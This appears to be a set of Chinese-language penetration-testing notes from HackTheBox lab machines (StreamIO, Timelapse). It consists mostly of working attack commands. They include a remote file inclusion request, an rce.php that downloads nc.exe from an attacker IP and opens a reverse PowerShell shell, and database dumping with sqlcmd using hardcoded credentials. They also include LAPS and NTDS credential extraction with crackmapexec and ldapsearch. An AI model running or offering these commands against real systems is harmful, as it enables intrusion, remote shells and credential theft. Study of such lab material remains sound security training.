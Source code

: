   这时候可以尝试**远程包含+代码执行**

  ```bash
  curl -X POST "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=hjjd4egnalb7od8d65br48m6ph"  -d 'include=http://10.10.16.5/rce.php' -k
  ```

  rce.php

  ```bash
  └─# cat rce.php   
  system("powershell -c wget 10.10.16.5/nc.exe -outfile \\programdata\\nc.exe");
  system("\\programdata\\nc.exe -e powershell 10.10.16.5 443");
  ```

  kali 监听得到 shell

  ```bash
  └─# nc -lvvp 443                       
  ```

  

- 二次信息搜集时查看网站目录里文件中包含 `databasae` 字段的信息

  ```powershell
  PS C:\inetpub\streamio.htb> dir -recurse *.php | select-string -pattern "database"
  ```



- windows 里自带的 where.exe 和 sqlcmd  ，参考 SteamIO 靶机

  ```powershell
  PS C:\> where.exe sqlcmd
  where.exe sqlcmd
  C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
  ```

- ```powershell
  sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
  
  sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
  ```



- 抓取火狐浏览器密码并破解，详情见 `StreamIO` 靶机



- 二次信息搜集时的手动枚举 ，详情见 `StreamIO` 靶机




- 提权时，看用户有无 `LAPS_Readers`权限（一个用户所在的组有`LAPS_Readers`权限 ），有的话可读取 laps（本地密码） 详情见

  `StreamIO` 靶机和 `Timelapse` 靶机

  可以这样读

  ```bash
  *Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'
  
  └─# crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps --ntds
  
  └─# ldapsearch -H ldap://10.10.11.152 -b 'DC=timelapse,DC=htb' -x -D svc_deploy@timelapse.htb -w 'E3R$Q62^12p7PLlC%KWaxuaV' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
  
  └─# crackmapexec smb 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps --ntds 
  ```